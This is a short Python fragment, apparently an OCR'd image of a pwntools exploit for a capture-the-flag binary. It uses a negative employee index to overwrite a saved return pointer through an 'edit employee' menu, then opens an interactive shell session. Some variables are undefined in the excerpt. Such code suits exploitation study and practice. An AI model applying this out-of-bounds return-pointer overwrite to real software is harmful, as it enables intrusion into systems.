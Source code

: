 ```python
rate =  ret_addr & 0xffffffff # Last part of addr - it's backwards somehow as above
# Now set the offset from the stack data to the RP 
offset = -3 # This will point to edit_employee's RP

# Now trigger an edit_employee call to our return pointer address
p.recvuntil(":")        # Menu options
p.sendline("2")         # Select edit employee
p.recvline()            # Read up to enter employee index
p.sendline(str(offset)) # send the offset from stack data
p.recvuntil("rate: ")
p.sendline(str(rate))   # Send first part of address
p.recvuntil("worked: ")
p.sendline(str(hours))  # Send last part of address

p.interactive() # Profit!?
p.interactive()
```
